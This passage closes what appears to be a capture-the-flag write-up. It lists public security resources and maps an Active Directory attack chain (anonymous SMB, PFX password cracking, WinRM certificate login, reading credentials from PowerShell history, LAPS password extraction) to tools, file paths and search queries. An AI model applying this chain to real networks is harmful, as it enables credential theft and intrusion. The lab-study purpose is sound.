│      ▸ https://cve.mitre.org/ (CVE List)                                         │
│      ▸ https://msrc.microsoft.com/ (Microsoft Security Response Center)          │
│                                                                                  │
│  [4] GITHUB POC REPOSITORIES                                                     │
│      ▸ https://github.com/CravateRouge/bloodyAD (BloodyAD - LAPS extraction)     │
│      ▸ https://github.com/dirkjanm/BloodHound.py (BloodHound Python ingestor)    │
│      ▸ https://github.com/openwall/john (John the Ripper)                        │
│      ▸ https://github.com/Hackplayers/evil-winrm (Evil-WinRM)                    │
│      ▸ https://github.com/nomi-sec/PoC-in-GitHub (PoC aggregator)                │
│                                                                                  │
│  [5] ACTIVE DIRECTORY RESOURCES                                                  │
│      ▸ https://book.hacktricks.xyz/windows-hardening/active-directory-methodology│
│      ▸ https://adsecurity.org/ (AD Security Blog)                                │
│      ▸ https://www.thehacker.recipes/ (AD Attack Recipes)                        │
│                                                                                  │
│  [6] SECURITY RESEARCH RESOURCES                                                 │
│      ▸ https://github.com/swisskyrepo/PayloadsAllTheThings                       │
│      ▸ https://www.ired.team/ (Red Team Notes)                                   │
│      ▸ https://posts.specterops.io/ (SpecterOps Blog — BloodHound creators)      │
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘

┌──────────────────────────────────────────────────────────────────────────────────┐
│  VULNERABILITIES IN THIS BOX — SEARCH QUERIES                                    │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│  SMB Anonymous Share Access (T1021.002)                                          │
│  ▸ Tools: smbclient, nxc, enum4linux-ng                                          │
│  ▸ "SMB null session anonymous share enumeration"                                │
│                                                                                  │
│  ZIP / PFX Password Cracking (T1110.002)                                         │
│  ▸ Tools: zip2john, pfx2john, john, hashcat                                      │
│  ▸ "crack pfx password john the ripper pfx2john"                                 │
│  ▸ "PKCS12 PFX brute force"                                                      │
│                                                                                  │
│  WinRM Certificate Authentication (T1021.006)                                    │
│  ▸ Tool: Evil-WinRM (-c cert.pem -k key.pem -S)                                  │
│  ▸ "evil-winrm certificate authentication ssl winrm"                             │
│  ▸ "openssl pkcs12 extract cert pem key pem"                                     │
│                                                                                  │
│  PowerShell History Credential Mining (T1552.001)                                │
│  ▸ Path: $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\                   │
│  ▸ File: ConsoleHost_history.txt                                                  │
│  ▸ "powershell history credentials ConsoleHost_history.txt"                      │
│                                                                                  │
│  LAPS Password Extraction via LAPS_Readers (T1555)                               │
│  ▸ Tools: BloodyAD, ldapsearch, Get-ADComputer                                   │
│  ▸ Attribute: ms-Mcs-AdmPwd                                                      │
│  ▸ "LAPS_Readers group ms-Mcs-AdmPwd BloodyAD extraction"                        │
│  ▸ "LAPS local administrator password solution abuse"                            │
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘
```

---

```
╔══════════════════════════════════════════════════════════════════════════════════════╗
║                                                                                      ║
║   ░█▀▀░█░█░█▀▀░▀█▀░█▀▀░█▄█░░░█▀▀░█▀█░█▄█░█▀█░█▀▄░█▀█░█▄█░▀█▀░█▀▀░█▀▀░█▀▄            ║
║   ░▀▀█░░█░░▀▀█░░█░░█▀▀░█░█░░░█░░░█░█░█░█░█▀▀░█▀▄░█░█░█░█░░█░░▀▀█░█▀▀░█░█            ║
║   ░▀▀▀░░▀░░▀▀▀░░▀░░▀▀▀░▀░▀░░░▀▀▀░▀▀▀░▀░▀░▀░░░▀░▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀░            ║
║                                                                                      ║
║   WRITEUP AUTHOR: Netrunner                                                          ║
║   COMPLETION DATE: 2025-12-05                                                        ║
║   ATTACK CHAIN: SMB → ZIP/PFX Crack → WinRM Cert → PS History → LAPS → SYSTEM      ║
║                                                                                      ║
╚══════════════════════════════════════════════════════════════════════════════════════╝
```

---

<div align="center">


</div>
